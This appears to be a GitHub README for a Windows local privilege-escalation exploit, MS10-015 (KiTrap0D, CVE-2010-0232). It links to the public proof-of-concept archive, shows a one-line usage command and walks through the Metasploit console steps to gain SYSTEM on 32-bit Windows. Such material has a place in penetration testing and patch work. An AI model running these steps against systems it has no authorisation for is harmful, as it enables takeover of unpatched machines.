

# MS10-015

```
This module will create a new session with SYSTEM privileges via the KiTrap0D exlpoit by Tavis Ormandy. 
If the session is use is already elevated then the exploit will not run. 
The module relies on kitrap0d.x86.dll, and is not supported on x64 editions of Windows.
```
- The POC was from [@Offensive Security](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/11199.zip)

Vulnerability reference:
 * [MS10-015](https://technet.microsoft.com/en-us/library/security/ms10-015.aspx)
 * [CVE-2010-0232](https://www.exploit-db.com/exploits/11199/)
 
## Usage
c:\\> vdmallowed.exe



## load the module within the Metasploit console
```
msf > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > show targets
    ...targets...
msf exploit(ms10_015_kitrap0d) > set TARGET <target-id>
msf exploit(ms10_015_kitrap0d) > show options
    ...show and set options...
msf exploit(ms10_015_kitrap0d) > exploit
    
```


# Reference
- [http://www.7kb.org/520.html](http://www.7kb.org/520.html)  


